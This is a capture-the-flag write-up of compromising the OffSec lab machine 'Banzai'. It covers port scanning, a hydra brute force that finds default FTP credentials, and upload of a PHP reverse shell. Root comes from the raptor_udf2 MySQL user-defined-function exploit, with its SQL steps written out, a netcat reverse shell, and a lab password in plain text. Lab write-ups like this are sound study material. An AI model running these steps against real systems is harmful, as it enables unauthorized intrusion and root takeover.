---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Banzai

## Enumeration

### Nmap

Started with an Nmap TCP SYN scan of all ports:


```
# Nmap 7.94SVN scan initiated Sat Jun  1 18:18:17 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.171.56
Nmap scan report for 192.168.171.56
Host is up (0.058s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 ba:3f:68:15:28:86:36:49:7b:4a:84:22:68:15:cc:d1 (RSA)
|   256 2d:ec:3f:78:31:c3:d0:34:5e:3f:e7:6b:77:b5:61:09 (ECDSA)
|_  256 4f:61:5c:cc:b0:1f:be:b4:eb:8f:1c:89:71:04:f0:aa (ED25519)
25/tcp   open   smtp       Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
|_smtp-commands: banzai.offseclabs.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
5432/tcp open   postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
8080/tcp open   http       Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: 403 Forbidden
8295/tcp open   http       Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Banzai
Device type: general purpose|printer|firewall
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (91%), Kyocera embedded (86%), IPFire 2.X (85%), WatchGuard Fireware 11.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32 cpe:/h:kyocera:cs-2560 cpe:/o:ipfire:ipfire:2.11 cpe:/o:watchguard:fireware:11.8
Aggressive OS guesses: Linux 3.11 - 4.1 (91%), Linux 4.4 (91%), Linux 3.16 (89%), Linux 3.13 (87%), Linux 3.10 - 3.12 (86%), Linux 3.10 - 3.16 (86%), Linux 2.6.32 (86%), Linux 3.2 - 3.8 (86%), Linux 3.8 (86%), Kyocera CopyStar CS-2560 printer (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Hosts:  banzai.offseclabs.com, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 20/tcp)
HOP RTT      ADDRESS
1   56.56 ms 192.168.45.1
2   56.50 ms 192.168.45.254
3   58.28 ms 192.168.251.1
4   58.26 ms 192.168.171.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  1 18:21:20 2024 -- 1 IP address (1 host up) scanned in 183.60 seconds
```


### Port 21

Anonymous login not allowed.

### Port 22

Version header seems to be the bundled version for [Debian "stretch"](https://www.debian.org/releases/stretch/) according to [Launchpad](https://launchpad.net/debian/+source/openssh).

### Port 5432

I attempted connecting with default credentials (`postgres:postgres`) to the port and to a database named "banzai" but both failed:

<figure><figcaption><p>Failed login attempts</p></figcaption></figure>

### Port 8080

HTTP `403` (forbidden) error for the landing page. I ran `feroxbuster` to see if there was anything else to see.

### Port 8295

Seems to contain a business website:

<figure><figcaption><p>Landing page on 8295</p></figcaption></figure>

I ran `feroxbuster` to see what I could turn up.

## Foothold

At this point it seemed like brute-forcing was the only option. So I tried that. PostgreSQL and FTP seemed like the most likely targets.

I used the Metasploit module described in this article to attempt brute force of the PostgreSQL service but no luck using Seclist's default PostgreSQL list. I tried with both `template1` (default) and `banzai` as the database.

I tried FTP using hydra and the Seclist FTP default list:


```bash
hydra -I -f -o ftp.hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.160.56 -V
```


<figure><figcaption><p> Hydra brute force of FTP</p></figcaption></figure>

Success with `admin:admin`. So now I can sign in to FTP and see what is available.

### FTP Access

I use `wget` to download all files on the FTP site and examine them:


<figure><figcaption><p>What was downloaded from FTP</p></figcaption></figure>

I recognize a lot of these entries as items displayed on the page at port 8295. Given the site has PHP enabled I will try to upload a PHP reverse shell. It uploads though I do have to wait for a connection timeout due to my firewall:

<figure><figcaption><p>Successful upload via FTP</p></figcaption></figure>

I can access it via the URL:

```
http://banzai.offsec:8295/rs.php
```

Which causes a shell to be spawned:

<figure><figcaption><p>Caught shell</p></figcaption></figure>

User access achieved as `www-data`.

## Privilege Escalation

The first hurdle I find is that I cannot reach out over port 80 so downloading things would be a problem. I did some experimentation by piping `id` to `nc` with various ports and found I could reach my machine at port 8295. I moved my HTTP server there and got rolling.

### MySQL

I run a full linPEAS scan but nothing is jumping off the page. I do notice one service that is listening on the internal interface that is inaccessible from the outside.

<figure><figcaption><p>Listening internal port</p></figcaption></figure>

Based on the port it is safe to assume it is MySQL. I check with `mysql -V`: and find it installed. I also use `ps` to check if it is running and it is indeed running and as `root`:

<figure><figcaption><p>MySQL running as root</p></figcaption></figure>

It is also listed in the Processes, Crons, ... section of the linPEAS output:

<figure><figcaption><p>MySQL listed in linPEAS output</p></figcaption></figure>

Unfortunately none of the obvious default credentials work for the root user. So I begin to dig. I eventually find the password inside the `config.php` in the `www-data` user's home directory:

<figure><figcaption><p>MySQL connection information</p></figcaption></figure>

The fact that MySQL is **both** running as `root` **and** is _daemonized_ makes me thing User Defined Functions may be a potential exploit vector.

### User Defined Functions (UDF)

User Defined Functions or UDFs are a way to extend MySQL functionality by creating or adding a new function that works like a native (built-in) MySQL function.

By using a UDF, one can create “native” code to be executed on the filesystem from inside MySQL. To do this, a user needs to:

1. Write a library (usually C/C++)
2. Compile the library into a shared object
3. Place that shared object into the plugin directory
4. Create a function in MySQL to execute the shared object file

This can be abused to get code running in the context of the MySQL process (which is running as `root` in this example).

Fortunately [this blog post](https://juggernaut-sec.com/mysql-user-defined-functions/) offers a thorough walk-through of how to accomplish this.

#### Enumerating MySQL

Given that I have found valid credentials (root:EscalateRaftHubris123) and know the database name (main) I can attempt to connect via the command line on the victim machine:

```bash
mysql -u root -p
```

I use the password and get access:

<figure><figcaption><p>Access to MySQL</p></figcaption></figure>

I know follow the steps in the previously linked post to attempt UDF exploitation.

<figure><figcaption><p>UDF Enumeration Steps</p></figcaption></figure>

The first command is used to check what permissions (`GRANTS`) the current user has. As expected for root the user as `ALL PRIVILEGES` (first green box above).

The second command is used to see what the `secure_file_priv` location is. `secure_file_priv` is a setting in MySQL that limits where data can be written to and from with MySQL. In this case it is disabled (second green box above) meaning that MySQL can read/write anywhere on the system.

The plugin folder (third green box above) is where the malicious library (compiled into a shared object) will be written later.

### Exploiting UDF

I check around Exploit-DB to see if there are any helpful UDF exploits pre-written and I find 3:

<figure><figcaption><p>Searchsploit results for UDF</p></figcaption></figure>

I am going to use 1518 because it is what the writer of the reference I am using used. There is one that seems to support up to MySQL 6 but the victim is running 5.7.30 so I should be fine with EDB-ID 1518.

#### Compiling Exploit On Victim Machine

I grab a copy of the exploit and rename it `raptor_udf2.c` so that I can follow the author's comments more easily. The top of the file explains compilation:


```c
/*
 * $Id: raptor_udf2.c,v 1.1 2006/01/18 17:58:54 raptor Exp $
 *
 * raptor_udf2.c - dynamic library for do_system() MySQL UDF
 * Copyright (c) 2006 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * ...
 *
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
 *
 * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
 *
 */

#include <stdio.h>
#include <stdlib.h>
...
```


The victim does have `gcc` installed so I use the compilation commands described [here](https://juggernaut-sec.com/mysql-user-defined-functions/#Compiling\_raptor\_udf2c\_on\_the\_Victim) to compile the exploit and create the `.so` file:

<figure><figcaption><p>Exploit generated .so file</p></figcaption></figure>

#### Creating Table From Shared Object File

The first steps described here are followed to create a table (`foo`) that contains the .so file generated when compiling the exploit (`raptor_udf2.so`):

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/.wkg/raptor_udf2.so'));
```

<figure><figcaption><p>Loading .so into table</p></figcaption></figure>

#### Loading Exploit Into Dumpfile

The next thing I need to do is to load the exploit from the table `foo` into a [`dumpfile`](https://dev.mysql.com/doc/refman/8.4/en/select-into.html), which is basically just copying the file into the plugin directory. Once done the shared object's functionality (command execution) can be integrated into MySQL.

I will use the `INTO` statement to create a dumpfile.

```sql
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```

#### Creating a Function

Then I will create a function from the file:

```sql
create function do_system returns integer soname 'raptor_udf2.so';
```

The first time an error is generated (red box in screenshot) but the blog post I am following provides an error correction command:

```sql
\! cp /tmp/.wkg/raptor_udf2.so /usr/lib/mysql/plugin
```

After this everything succeeded:

<figure><figcaption><p>Successful function creation</p></figcaption></figure>

#### Verifying the Function's Creation

The functions creation can be verified:

```sql
select * from mysql.func;
```

<figure><figcaption><p>Created function found in listing</p></figcaption></figure>

#### Using the Function

I can now run commands as `root` via the `do_system` UDF. To verify I will call `whoami` and write it to an output file:

```sql
select do_system('whoami > /tmp/.wkg/cmds/whoami.txt');
```

This did not generate the expected output. No text file was created as was shown in the post I followed. At first it made me think that the code execution was not working.

I knew Netcat was installed on the machine so I decided to just attempt to spawn a shell right from the do\_system call. First I tried "`mkfifo ... nc ...`" and that did not work. Then I tried `nc -e` and it worked:

<figure><figcaption><p>Spawning the shell</p></figcaption></figure>

<figure><figcaption><p>Catching the shell</p></figcaption></figure>

I stabilize the shell and have `root` access.

## Learned

* **Value of Force:** I am always hesitant to brute force but it would be worth adding at least a quick `hydra` pass of default creds when I find services such as FTP.
* **UDF Exploitation:** I had never heard of UDF let alone how to exploit it.

### Difficulty Rating

* **Foothold - 4/10:** Was really easy but I always forget brute-forcing default cred lists at first
* **Privilege Escalation - 7/10:** Very non-obvious path. Wtf is a UDF?
